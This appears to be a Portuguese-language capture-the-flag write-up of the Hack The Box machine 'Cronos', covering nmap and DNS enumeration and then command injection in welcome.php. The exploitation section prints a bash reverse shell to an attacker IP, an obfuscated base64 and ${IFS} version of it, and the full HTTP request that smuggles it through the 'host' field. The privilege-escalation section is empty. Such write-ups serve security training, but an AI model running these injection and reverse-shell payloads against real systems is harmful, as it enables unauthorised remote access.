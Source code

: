 Cronos
========================

## Enumeration

Basic nmap scan

![qownnotes-media-gwbixw](../../.gitbook/assets/qownnotes-media-gwbixw.png)

Vuln scan nmap

![qownnotes-media-VIgBNS](../../.gitbook/assets/qownnotes-media-VIgBNS.png)

UDP scan

![qownnotes-media-mzPPnp](../../.gitbook/assets/qownnotes-media-mzPPnp.png)

Então temos SSH, HTTP e DNS

DNS

![qownnotes-media-sNOphN](../../.gitbook/assets/qownnotes-media-sNOphN.png)

    echo "10.10.10.13    admin.cronos.htb www.cronos.htb cronos.htb ns1.cronos.htb" >> /etc/hosts


![qownnotes-media-wywhXk](../../.gitbook/assets/qownnotes-media-wywhXk.png)

HTTP

admin.cronos.htb

![qownnotes-media-EofrJc](../../.gitbook/assets/qownnotes-media-EofrJc.png)

Com base nessa resposta do wellcome.php, podemos identificar que existe a possibilidade de execução de comando no servido com a técnica representada na parte de exploitation:

cronos.htb

![qownnotes-media-LPcQCW](../../.gitbook/assets/qownnotes-media-LPcQCW.png)


ns1.cronos.htb = 10.10.10.13

![qownnotes-media-rbnDZD](../../.gitbook/assets/qownnotes-media-rbnDZD.png)

## Exploitation

![qownnotes-media-FVGcFT](../../.gitbook/assets/qownnotes-media-FVGcFT.png)

Com isso já deu para perceber que existe um possível entry point aqui, podemos prosseguir com o reconhecimento removendo na resposta o redirecionamento:

![qownnotes-media-Kvdfhy](../../.gitbook/assets/qownnotes-media-Kvdfhy.png)

Para isso removemos o cabeçalho Location e alteramos a resposta de 302 para 200 OK.

Então entendemos como fica a requisição para o servidor:

![qownnotes-media-bqgXSp](../../.gitbook/assets/qownnotes-media-bqgXSp.png)

Mandamos o seguinte payload para exploração da vulnerabilidade:

    echo "bash -i >& /dev/tcp/10.10.14.14/8081 0>&1" | base64
    echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC84MDgxIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
    
Ao disparar esse payload obtivemos a shell:

![qownnotes-media-QwFmDs](../../.gitbook/assets/qownnotes-media-QwFmDs.png)

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 401
Origin: http://admin.cronos.htb
Connection: close
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8%3B+%65%63%68%6f%24%7b%49%46%53%7d%4c%32%4a%70%62%69%39%69%59%58%4e%6f%49%43%31%73%49%44%34%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%51%76%4f%44%41%34%4d%53%41%77%50%43%59%78%49%44%49%2b%4a%6a%45%4b%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%65%36%34%24%7b%49%46%53%7d%2d%64%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%68
```

## PrivEsc


